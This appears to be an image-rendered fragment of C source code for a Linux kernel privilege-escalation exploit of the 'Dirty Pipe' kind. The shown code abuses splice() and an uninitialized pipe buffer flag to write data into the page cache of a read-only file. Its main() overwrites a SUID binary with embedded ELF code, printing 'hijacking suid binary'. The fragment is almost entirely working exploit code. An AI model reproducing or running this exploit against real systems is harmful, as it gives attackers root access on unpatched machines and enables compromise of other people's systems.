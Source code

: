 ```
	if (fstat(fd, &st)) {
		perror("stat failed");
		return -1;
	}

	/* create the pipe with all flags initialized with
	   PIPE_BUF_FLAG_CAN_MERGE */
	int p[2];
	prepare_pipe(p);

	/* splice one byte from before the specified offset into the
	   pipe; this will add a reference to the page cache, but
	   since copy_page_to_iter_pipe() does not initialize the
	   "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
	--offset;
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
	if (nbytes < 0) {
		perror("splice failed");
		return -1;
	}
	if (nbytes == 0) {
		fprintf(stderr, "short splice\n");
		return -1;
	}

	/* the following write will not create a new pipe_buffer, but
	   will instead write into the page cache, because of the
	   PIPE_BUF_FLAG_CAN_MERGE flag */
	nbytes = write(p[1], data, len);
	if (nbytes < 0) {
		perror("write failed");
		return -1;
	}
	if ((size_t)nbytes < len) {
		fprintf(stderr, "short write\n");
		return -1;
	}

	close(fd);

	return 0;
}

int main(int argc, char **argv) {
	if (argc != 2) {
		fprintf(stderr, "Usage: %s SUID\n", argv[0]);
		return EXIT_FAILURE;
	}

	char *path = argv[1];
	uint8_t *data = elfcode;

	int fd = open(path, O_RDONLY);
	uint8_t *orig_bytes = malloc(sizeof(elfcode));
	lseek(fd, 1, SEEK_SET);
	read(fd, orig_bytes, sizeof(elfcode));
	close(fd);

	printf("[+] hijacking suid binary..\n");
	if (hax(path, 1, elfcode, sizeof(elfcode)) != 0) {
		printf("[~] failed\n");
		return EXIT_FAILURE;
	}
```